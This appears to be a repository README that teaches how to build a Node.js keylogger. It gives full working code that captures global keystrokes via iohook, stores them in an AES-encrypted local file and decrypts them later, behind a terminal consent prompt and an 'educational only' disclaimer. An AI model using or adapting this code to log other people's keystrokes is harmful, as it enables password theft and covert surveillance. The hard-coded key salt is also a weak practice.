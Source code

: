 # keyLOG
<b>!!! NOTE - THIS CODE IS FOR EDUCATIONAL PURPOSE ONLY.(DON'T TRY IT WITHOUT KNOWLEDGE ABOUT THIS CODE)
>AUTHORS WON'T BE RESPONSIBLE FOR ANY ILLIGAL ACTIVITY</b>
1) Pre-requisites:
Install Node.js (v14+ recommended) on your PC.
2) Create a new folder for your project and initialize:
Open your terminal/command prompt:
```
mkdir keylogger
cd keylogger
npm init -y
```
3) Install dependencies
We'll use:

iohook for global keyboard capturing
no external encryption lib needed, Node.js's crypto is sufficient
Install iohook:
```
npm install iohook
```
4) Create the main script: index.js
step - In your text editor (VS Code, Notepad++, etc.), create a new file called index.js and paste this:
```
const iohook = require('iohook');
const readline = require('readline');
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc'); // encrypted log file path
const ALGORITHM = 'aes-256-cbc';

// Store logs in memory as lines of text
let logs = [];

// Generate a random IV for AES
function generateIV() {
  return crypto.randomBytes(16);
}

// Encrypt string with password using AES-256-CBC
function encrypt(text, password) {
  const iv = generateIV();
  const key = crypto.scryptSync(password, 'salt', 32);
  const cipher = crypto.createCipheriv(ALGORITHM, key, iv);
  let encrypted = cipher.update(text, 'utf8', 'hex');
  encrypted += cipher.final('hex');
  // Return iv + encrypted data as hex
  return iv.toString('hex') + ':' + encrypted;
}

// Ask user confirmation and password
function askQuestion(query) {
  const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
  return new Promise(resolve => rl.question(query, ans => {
    rl.close();
    resolve(ans);
  }));
}

(async () => {
  console.log("!!! WARNING: This program will record ALL your keyboard input.");
  let consent = await askQuestion("Do you want to start capturing keyboard input? (yes/no): ");
  consent = consent.trim().toLowerCase();

  if (consent !== 'yes') {
    console.log("Consent not given. Exiting.");
    process.exit(0);
  }

  const password = await askQuestion("Enter a password to protect your log file: ");
  if (!password) {
    console.log("Password cannot be empty. Exiting.");
    process.exit(1);
  }

  console.log("Keyboard logging started. Press Ctrl+C to stop and save.");

  // Listen for keyboard events
  iohook.on('keydown', event => {
    // Decode key - event.keychar may be undefined for some keys; log raw keycode and timestamp
    const time = new Date().toISOString();
    let keyStr = event.rawcode || event.keycode || event.keychar || 'UnknownKey';
    logs.push(`[${time}] Key: ${keyStr}`);
  });

  iohook.start();

  // On exit, save the encrypted log file
  const saveLogs = () => {
    if (logs.length === 0) {
      console.log("No keystrokes logged.");
      process.exit(0);
    }
    const plainText = logs.join('\n');
    const encrypted = encrypt(plainText, password);
    fs.writeFileSync(LOG_FILE, encrypted, { encoding: 'utf8' });
    console.log(`\nLogs saved encrypted to: ${LOG_FILE}`);
    process.exit(0);
  };

  process.on('SIGINT', () => {
    console.log('\nReceived interrupt signal. Saving logs...');
    iohook.stop();
    saveLogs();
  });

})();
```
5) Usage instructions:
Run the script by typing in terminal:
```
node index.js
```
It will display a warning and prompt:
Do you want to start capturing keyboard input? (yes/no):
Type yes if you want to proceed.

It will ask for a password to protect the log file.
Enter any password you want.

After that, all your key presses will be recorded until you press Ctrl+C to stop.

On exit, your log file will be saved encrypted as keylog.enc in the same folder.

6) To read the log file later
Here's a simple decrypt script you can create as decrypt.js to decrypt and view logs:
```
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc');
const ALGORITHM = 'aes-256-cbc';

function decrypt(encryptedText, password) {
  const [ivHex, encryptedData] = encryptedText.split(':');
  const iv = Buffer.from(ivHex, 'hex');
  const key = crypto.scryptSync(password, 'salt', 32);
  const decipher = crypto.createDecipheriv(ALGORITHM, key, iv);
  let decrypted = decipher.update(encryptedData, 'hex', 'utf8');
  decrypted += decipher.final('utf8');
  return decrypted;
}

const readline = require('readline');
const rl = readline.createInterface({ input: process.stdin, output: process.stdout });

rl.question('Enter password to decrypt log file: ', password => {
  if (!fs.existsSync(LOG_FILE)) {
    console.error('Log file not found!');
    process.exit(1);
  }
  const encryptedContent = fs.readFileSync(LOG_FILE, 'utf8');
  try {
    const decrypted = decrypt(encryptedContent, password);
    console.log('\n--- Decrypted Logs ---\n');
    console.log(decrypted);
  } catch (err) {
    console.error('Failed to decrypt file. Wrong password or corrupted file.');
  }
  rl.close();
});
```
Run it with:
```
node decrypt.js
```
Recap:
You'll have two scripts: index.js (to record) and decrypt.js (to read).
keylog.enc file stores encrypted logs.
Password you provide protects your data.
Notes:
This script uses native Node.js modules and a popular native keylogger iohook.
You might need to build iohook binaries on some platforms, Replit and some environments may not support it well. Preferred to run locally on your PC.
You must run this script with admin privileges on some systems for global keyboard capture.
